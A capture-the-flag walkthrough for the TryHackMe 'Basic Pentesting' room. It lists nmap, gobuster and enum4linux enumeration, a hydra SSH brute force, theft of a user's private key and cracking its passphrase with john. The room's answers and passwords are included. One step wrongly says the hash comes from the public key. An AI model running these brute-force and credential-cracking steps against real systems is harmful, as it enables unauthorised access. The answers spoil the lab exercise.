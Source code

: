 # Basic Pentesting Wlakthrough
### Link
- https://tryhackme.com/room/basicpentestingjt
------------------------
### Namp
- Find the services exposed by the machine
    - sudo nmap -sV -sC -oN [Path]/[Result File name].txt [IP]
    - Findings:
        - Open port: 22 / 80 / 139 / 445 / 8009 / 8080
        - Service exposed : smb
    - picture: [Basic_Pentesting_1.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_1.png)
    - picture: [Basic_Pentesting_2.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_1.png)
### Gobuster
- Find directories
    - sudo gobuster dir -u [IP] -w [path]/directory-list-2.3-medium.txt
    - picture: [Basic_Pentesting_3.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_3.png)

- *What is the name of the hidden directory on the web server(enter name without /)?*
    - **Answer**: development
### Analyze development folder
- Connect to /devolpment
    - [IP]/development
        - 2 files available: **dev.txt** and **J.txt**
        - picture: [Basic_Pentesting_4.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_4.png)
    - Analyze these 2 files
        - **dev.txt**
        > I'm using version 2.5.12

        > SMB has been configured

        > I got Apache set up. Will put in our content later.
        - **J.txt**
        > /etc/shadow to make sure we don't have any weak credentials,

        > and I was able to crack your hash really easily
### Search user - enum4linux
- For this step, we can use **enum4linux**
    - sudo enum4linux -a [IP]
    - result: [Basic_Pentesting_5.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_5.png)
 - What is the username?
    - **Answer**: jan
- What is the name of the other user you found(all lower case)?
    - **Answer**: kay
### Brute force Jan account
- For this step, we can use hydra
    -  hydra -l jan -P [path]/rockyou.txt ssh://[IP]
    - result: [Basic_Pentesting_6.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_6.png)
- What is the password?
    - **Answer**: armando

### Gain access to the machine
- For this step, we use SSH
    - picture: [Basic_Pentesting_7.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_7.png)
- What service do you use to access the server(answer in abbreviation in all caps)?
    - **Answer**: SSH
- Check /etc/passwd
    - picture: [Basic_Pentesting_8.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_8.png)
- Move to kay directory
    - /home/kay
- Check all files, hidden files included
    - ls -la
    - picture: [Basic_Pentesting_9.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_9.png)
    - Check all folders available. **.ssh** is accessible. We have public and private key.
    - We can access the private key **id_rsa**
        - Copy the private key
        - Create file on your local machine and try to access the targeted machine through SSH with kay private key
            - ssh -i id_rsa kay@[IP]
        - Result: We need password/passphrase
        - picture: [Basic_Pentesting_10.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_10.png)
### Obtain  hte password
- Previously, under /home/kay, we found the public and private key. We also know, from **J.txt**, the password is really easy to crack.
- From the public **id_rsa.pub**, let's try to obtain the hash by using ssh2john.py
    - /usr/share/john/ssh2john.py ./id_rsa > jay_hash.txt
- Now, use johntheripper
    - john jay_hash.txt
        - Result: 
        > Cost 1 (KDF/cipher [0=**MD5**/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
- This result means the encryption used is **MD5** so we can try with johntheripper to obtain the password
    - john jay_hash.txt --wordlist=[path]/rockyou.txt
        - Result:
        > beeswax
- Try one more time to access the server
    - ssh -i id_rsa kay@[IP]
    - Use the password
    - picture: [Basic_Pentesting_11.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_11.png)
- Navigate. We found the file **pass.bak**
- What is the final password you obtain?
    - **Answer**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    - picture: [Basic_Pentesting_13.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_13.png)


